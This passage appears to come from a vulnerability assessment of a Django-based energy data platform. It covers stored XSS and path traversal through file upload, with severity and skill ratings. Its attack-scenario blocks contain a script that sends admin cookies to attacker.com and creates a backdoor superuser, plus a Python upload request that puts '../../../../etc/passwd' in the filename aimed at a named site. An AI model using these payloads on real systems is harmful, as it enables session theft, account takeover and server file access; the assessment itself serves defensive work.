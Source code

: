 **Why It's Exploitable:**
- Django admin often exposed on `/admin/`
- Multiple stored XSS vulnerabilities
- Can steal admin session cookies

**Attack Scenario:**
```javascript
// Inject malicious script in energy dataset upload
<script>
  // Steal admin cookie
  fetch('https://attacker.com/steal?cookie=' + document.cookie);

  // Create backdoor admin account
  fetch('/admin/auth/user/add/', {
    method: 'POST',
    body: new FormData({
      username: 'backdoor',
      password: 'pwned123',
      is_superuser: 'on'
    })
  });
</script>
```

**Impact:**
- Admin account compromise
- Full platform takeover
- Data manipulation

**Estimated Time to Exploit:** 1-2 hours (need basic user account first)
**Skill Level Required:** Intermediate

---

### **5. Path Traversal via File Upload**

**Severity:** HIGH
**CVEs:** 20+ path traversal vulnerabilities
**Exploitability:** ★★★☆☆ (3/5 - Moderate)

**Attack Scenario:**
```python
# Upload file with traversal in filename
import requests

files = {
    'dataset': ('../../../../etc/passwd', 'malicious content')
}

requests.post('https://openenergy-platform.org/upload', files=files)

# If successful: read sensitive files, overwrite configs
```

**Impact:**
- Read sensitive server files
- Overwrite configuration
- Plant backdoors
